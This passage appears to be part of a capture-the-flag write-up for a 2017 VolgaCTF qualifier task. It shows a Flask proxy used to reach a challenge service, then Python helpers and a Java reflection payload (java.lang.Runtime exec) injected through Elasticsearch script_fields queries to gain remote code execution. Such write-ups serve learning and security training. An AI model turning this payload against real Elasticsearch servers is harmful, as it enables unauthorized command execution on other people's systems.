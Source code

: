 ```python
    try:
        lock = True
        url = 'http://127.0.0.1:9200/'+ path +'?' + request.query_string.decode()
        r = requests.post("http://troll-hunter.quals.2017.volgactf.ru:9494/checkip", data={"ip":"http://sibears.ru:4042"})
        lock = False
        return r.text, r.status_code
    except Exception as e:
        lock = False
        return str(e), 500

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=4042, threaded=True)
```

## Run My Damn Code

Using that flask webserver and the little helper:
```python 
search = lambda p: requests.get("http://sibears.ru:4042/check/_search", params={"source": json.dumps(p)}).text
exec_cmd = lambda cmd: search({"size":1,"query":{"match_all":{}},"script_fields":{"lol":{"script":cmd}}})
```

We tried tons of code until our teammate won't ask us had we tried to get java Runtime class as it's done in android hacks:
```java
window.jsinterface.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(cmd);
```

After a while we adapted that solution for elastic:
```java
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("%s").getText()
```

And get RCE!
```python
search = lambda p: requests.get("http://sibears.ru:4042/check/_search", params={"source": json.dumps(p)}).text
   
def exec_sh(cmd):
    payload = {
        "size":1,
        "script_fields": {
            "lol": {
                "script": 
                    '''java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("%s").getText()''' % cmd
                    }
            }
    }
    search(payload)
```
